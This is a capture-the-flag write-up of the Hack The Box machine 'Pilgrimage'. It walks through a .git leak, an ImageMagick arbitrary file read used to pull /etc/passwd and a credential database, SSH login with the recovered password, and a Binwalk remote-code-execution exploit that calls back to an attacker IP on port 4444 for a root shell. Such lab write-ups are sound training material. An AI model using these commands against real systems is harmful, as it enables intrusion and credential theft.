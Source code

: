# Pilgrimage
Linux . Easy

## Enumeration

### Initial Nmap Scan
Our first step in probing the web application was an initial Nmap scan using the following command:

```
nmap -sCV -p- {machine IP}
```

![image](https://github.com/vsang181/Hackthebox/assets/28651683/2cd104de-7e65-4a71-be92-adf4ce9070a3)

This comprehensive scan returned a domain name for our target IP, which was subsequently added to the /etc/hosts file to enhance readability in further exploration.

### Exploring the Web Application

![image](https://github.com/vsang181/Hackthebox/assets/28651683/d73cbfb6-51d4-4833-9479-c12ae02791cd)

Following the initial scan, we began investigating the web application's features. This exploration revealed:

- A registration page, which automatically logs in new users
- A manual login page
- A home page featuring an image shrinking tool which allows users to upload images, subsequently displaying the resized image.

Once logged in, we were directed to a 'Dashboard' page. This interface displayed the original image file name and a link to the shrunken image, which had been assigned a new name by the application.

### Detailed Nmap Scan

To gain further insight into the underlying infrastructure, a second, more comprehensive Nmap scan was conducted. This scan revealed a hidden .git directory, which offered a potential opportunity for further investigation.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/b011b319-f938-49ca-80cf-a12745a792ee)

### Extracting Hidden Git Directory

In order to extract the contents of the hidden .git directory, we employed the git-dumper tool. This allowed us to gain access to the web application's source code, providing valuable information about the application's structure and functionality.

The source code comprised several different files for login, logout, register, and dashboard functionality, as well as an ELF 64-bit LSB executable called 'magick'. This command-line program is used to resize the images uploaded by users.

[git-dumper](https://github.com/arthaud/git-dumper)

![image](https://github.com/vsang181/Hackthebox/assets/28651683/4a63b9d3-ba32-49bd-8a7a-d962fe9e8a5d)

### Source Code Analysis

Detailed scrutiny of the index.php file revealed a PHP script that facilitates image uploads, resizing, and storage. The script initializes a session, imports a package named "bulletproof" to handle image uploads, checks user authentication, processes image uploads, and renders HTML for the webpage.

We also discovered a SQLite database path mentioned within the dashboard.php file.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/088a4f37-3dfd-496f-99a6-4bfed8d7b1a5)

### Investigating ImageMagick

In order to learn more about the potential vulnerabilities of the 'magick' tool, we downloaded it to our local system and checked the version.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/6b293647-bf5d-4a7d-9fcf-b36fff6fb32e)

Following a quick Google search, we discovered an Arbitrary File Read vulnerability in this version of ImageMagick. The provided Proof-of-Concept (POC) indicated that this vulnerability could be exploited for further investigations.

[ImageMagick 7.1.0-49 - Arbitrary File Read](https://www.exploit-db.com/exploits/51261)

[ imagemagick-lfi-poc](https://github.com/Sybil-Scan/imagemagick-lfi-poc)

## Exploitation

Taking advantage of the vulnerability we discovered, we first generated a blank .png file designed to read the "/etc/passwd" file. This was achieved using the following command:

```
python3 generate.py -f "/etc/passwd" -o exploit.png
```

This malicious .png file was then uploaded to the web application and the shrunken image resulting from the server's processing was saved locally for further analysis.

To extract the hexadecimal content embedded in the manipulated image, we utilized the command-line tool 'identify' with the following command:

```
identify -verbose {filename.png}
```
This yielded the target hexadecimal code.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/c3f759a8-d888-440f-b2d0-c93afa4730de)

The hexadecimal code was then converted into a string format using the following Python command:

```
python3 -c 'print(bytes.fromhex("{Hex Code}").decode("utf-8"))'
```

The decoded string revealed the presence of a user named Emily in the system.

Leveraging the Local File Inclusion vulnerability we had previously established, we proceeded to download the database.

The target file was changed from "/etc/passwd" to "/var/db/pilgrimage" within the original exploit command.

This action resulted in a large data dump, which was subsequently analyzed using an online tool for convenience.

[CyberChef](https://gchq.github.io/CyberChef/)

The analysis of this data revealed Emily's password.

![Screenshot_2023-07-26_21-34-34](https://github.com/vsang181/Hackthebox/assets/28651683/55500606-123e-475b-b6af-70819061ca42)

We then attempted an SSH login using Emily's credentials. The login attempt proved successful.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/5bfd9db7-82e7-4268-bc88-2e88589d5805)

Finally, this successful login revealed the desired user flag, marking the completion of our exploration and exploitation journey.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/2cea703a-9865-4802-a843-d70ba17d636d)

## Privilege Escalation

An initial attempt to run 'sudo -l' to list Emily's sudo privileges was unsuccessful.

By running the linpeas.sh script, we discovered a process located at /usr/sbin/malwarescan.sh. As user Emily, we have read permissions for this process.

The content of the script revealed the following details:

![image](https://github.com/vsang181/Hackthebox/assets/28651683/d0188909-07c1-4fc7-9dc9-6e6cd3c3d177)

The bash script was designed to monitor a specific directory (/var/www/pilgrimage.htb/shrunk/) for the creation of new files, employing the 'inotifywait' command for this purpose.

The script has a blacklist, an array of string patterns ("`Executable script`" and "`Microsoft executable`"). If the output of the `binwalk` command (stored in the `binout` variable) contains any of the blacklisted string patterns, the script removes the file.

A check on the 'binwalk' version revealed it to be Binwalk v2.3.2.

A quick Google search for known exploits against this version of binwalk unveiled a Remote Command Execution (RCE) vulnerability.

[Binwalk v2.3.2 - Remote Command Execution (RCE)](https://www.exploit-db.com/exploits/51249)

With this identified vulnerability, we had the potential to remotely execute code as root within the system.

The exploit code was saved into a file, named, for instance, 'exploit.py'.

The exploit was launched using the following command:

```
python3 exploit.py /path/to/input.png your.ip.address.here 4444
```

This operation created a png file ready to be uploaded and subsequently executed by 'binwalk', as identified earlier in the 'malwarescan.sh' script.

Concurrently, we started listening on the specified port via 'netcat'.

An HTTP server was then started, and while still in SSH, the 'wget' command was used to retrieve the file into the specified folder.

This process ultimately resulted in gaining a root shell, enabling access to the coveted root flag.
